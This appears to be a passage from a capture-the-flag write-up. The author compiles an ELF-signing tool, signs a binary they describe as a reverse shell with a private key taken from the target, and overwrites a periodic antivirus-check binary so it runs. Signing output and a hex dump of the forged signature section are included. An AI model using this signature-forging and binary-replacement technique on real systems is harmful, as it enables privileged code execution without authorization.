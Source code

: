 With some internet grepping of the signature `.text_sig` and knowing I was looking for elf signing, I found https://github.com/NUAA-WatchDog/linux-elf-binary-signer/tree/master which had a readme output that looked almost exactly like what I had seen with the `readelf` from the day before.

I did need to compile this locally because it required `libssl-dev` which wasn't on the remote system:
```sh
gcc elf_sign.c -o elf_sign -lssl -lcrypto -static
```

But witht his new elf_sign binary compiled and copied over to the remote server, i could sign the malicious payload with the private key, the same private key to use as the cert, and my compiled `monitor` binary that is actually my reverse shell.

```sh
eric@era:~/monitordir$ ./elf_sign sha256 key.pem key.pem monitor
./elf_sign sha256 key.pem key.pem monitor
 --- 64-bit ELF file, version 1 (CURRENT), little endian.
 --- 31 sections detected.
 --- [Library dependency]: libc.so.6
 --- Section 0016 [.text] detected.
 --- Length of section [.text]: 466
 --- Signature size of [.text]: 458
 --- Writing signature to file: .text_sig
 --- Removing temporary signature file: .text_sig
eric@era:~/monitordir$ read -x .text_sig monitor
read -x .text_sig monitor
bash: read: -x: invalid option
read: usage: read [-ers] [-a array] [-d delim] [-i text] [-n nchars] [-N nchars] [-p prompt] [-t timeout] [-u fd] [name ...]
eric@era:~/monitordir$ readelf -x .text_sig monitor
readelf -x .text_sig monitor

Hex dump of section '.text_sig':
  0x00000000 308201c6 06092a86 4886f70d 010702a0 0.....*.H.......
  0x00000010 8201b730 8201b302 0101310d 300b0609 ...0......1.0...
  0x00000020 60864801 65030402 01300b06 092a8648 `.H.e....0...*.H
  0x00000030 86f70d01 07013182 01903082 018c0201 ......1...0.....
  0x00000040 01306730 4f311130 0f060355 040a0c08 .0g0O1.0...U....
  0x00000050 45726120 496e632e 31193017 06035504 Era Inc.1.0...U.
  0x00000060 030c1045 4c462076 65726966 69636174 ...ELF verificat
  0x00000070 696f6e31 1f301d06 092a8648 86f70d01 ion1.0...*.H....
  0x00000080 09011610 79757269 76696368 40657261 ....yurivich@era
  0x00000090 2e636f6d 02146d63 4aa981e1 93a1e448 .com..mcJ......H
  0x000000a0 c5205ff7 9b84e6b6 f50b300b 06096086 . _.......0...`.
  0x000000b0 48016503 04020130 0d06092a 864886f7 H.e....0...*.H..
  0x000000c0 0d010101 05000482 010063ae bc8c6f64 ..........c...od
  0x000000d0 357a8cec 4e7dc041 96ca5d91 ae5972c7 5z..N}.A..]..Yr.
  0x000000e0 d3eaf55e 41f95176 129536cd 0484ad57 ...^A.Qv..6....W
  0x000000f0 5f20d9df cefa15e7 46d6b3f8 9cf079e1 _ ......F.....y.
  0x00000100 a60157a4 0f4ca6cb f0bcfe3c 7fd192bc ..W..L.....<....
  0x00000110 fe1df718 eac4da05 09cbd8b3 bc371c64 .............7.d
  0x00000120 136fbe78 162f8dec d0f8f461 c25cfd27 .o.x./.....a.\.'
  0x00000130 a451c34f 55a409dc 19fd5cf0 35338adf .Q.OU.....\.53..
  0x00000140 b10c9f09 e74d1158 f44a4509 e57dd3bd .....M.X.JE..}..
  0x00000150 fa5af1a6 c40b8361 a49a82a1 58d43753 .Z.....a....X.7S
  0x00000160 83f594d7 facbec8b a3829533 d874eff7 ...........3.t..
  0x00000170 55206b4f 4c40894a b4a8400f f4b2a449 U kOL@.J..@....I
  0x00000180 3c42ef77 232e8ab7 24aab5cf e911bcd6 <B.w#...$.......
  0x00000190 de374a6f f49273e4 f0cc1705 ba60e845 .7Jo..s......`.E
  0x000001a0 77b9006c fbeddb94 6b3b9059 85e5dceb w..l....k;.Y....
  0x000001b0 3951ae59 9b580d18 d806c69f 34efce15 9Q.Y.X......4...
  0x000001c0 fc1c65d2 1624d5f7 b444              ..e..$...D

  eric@era:~/monitordir$ cp monitor /opt/AV/periodic-checks/monitor
```
